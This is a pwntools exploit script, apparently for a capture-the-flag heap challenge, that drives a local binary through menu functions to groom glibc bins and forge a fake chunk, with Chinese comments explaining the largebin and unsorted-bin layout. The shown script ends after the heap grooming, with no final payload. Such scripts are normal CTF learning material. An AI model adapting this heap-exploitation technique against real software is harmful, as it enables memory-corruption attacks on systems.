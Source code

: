 ```py
from pwn import *

elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path], aslr=False)


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


add_chunk(0, 0x18)
add_chunk(1, 0x418)
add_chunk(2, 0x108)
add_chunk(3, 0x418)
add_chunk(4, 0x438)
add_chunk(5, 0x108)
add_chunk(6, 0x428)
add_chunk(7, 0x108)

#这里构造的一个payload和bins的空间他是从fd的反方向也就是bk方向进行一个chunk的布局构造
delete_chunk(1)
delete_chunk(4)
delete_chunk(6)
delete_chunk(3)

add_chunk(1, 0x438)#创建一个大于0x200大小的堆块时他会去便利unsortbin如果他们里面有同样大小的chunk就会分割出来其他的会写如到lagrebin中去因此在这个位置就存在了一个lagrebin的获取和构建
edit_chunk(1, b'a' * 0x418 + p64(0xa91))#并且在这个chunk的后0x20的位置上构造一个fake chunk这里构造了一个
add_chunk(3, 0x418)
add_chunk(4, 0x428)
add_chunk(6, 0x418)

delete_chunk(6)
delete_chunk(3)

add_chunk(3, 0x418)
edit_chunk(3, b'b' * 8 + p8(0))
add_chunk(6, 0x418)

delete_chunk(6)
delete_chunk(4)
```